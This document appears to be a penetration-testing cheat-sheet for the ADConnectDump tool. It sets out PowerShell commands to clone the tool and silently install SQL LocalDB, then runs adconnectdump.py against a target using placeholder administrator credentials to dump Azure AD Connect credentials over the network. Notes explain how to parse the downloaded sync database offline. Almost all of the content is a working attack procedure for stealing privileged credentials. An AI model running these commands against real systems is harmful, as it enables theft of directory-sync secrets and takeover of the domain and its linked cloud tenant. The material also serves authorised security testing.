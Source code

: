 ### ADConnectDump - Download tool
```powershell
git clone https://github.com/fox-it/adconnectdump
cd adconnectdump
```

### ADConnectDump - Get MSSQL localDb for Dump
```powershell
Invoke-WebRequest -Uri https://go.microsoft.com/fwlink/?LinkID=866658 -OutFile SqlLocalDB.msi
Start-Process -FilePath msiexec.exe -ArgumentList '/i', 'SqlLocalDB.msi', '/qn' -Wait
Remove-Item -Path SqlLocalDB.msi
```

### ADConnectDump - Dump Creds with secretsdump style syntax
```powershell
$ServerName = "192.168.0.238" 
$password = "Password"
$username = "administrator"
$domain = "Shrine"
 C:\Python27\python.exe .\adconnectdump.py -dc-ip $ServerName -target-ip $ServerName Administrator@$ServerName
```

### Notes
You should call adconnectdump.py from Windows. It will dump the Azure AD connect credentials over the network similar to secretsdump.py (you also will need to have impacket and pycryptodomex installed to run this). ADSyncQuery.exe should be in the same directory as it will be used to parse the database that is downloaded (this requires MSSQL LocalDB installed on your host).

Alternatively you can run the tool on any OS, wait for it to download the DB and error out, then copy the mdf and ldf files to your Windows machine with MSSQL, run ADSyncQuery.exe c:\absolute\path\to\ADSync.mdf > out.txt and use this out.txt on your the system which can reach the Azure AD connect host with --existing-db and --from-file out.txt to do the rest.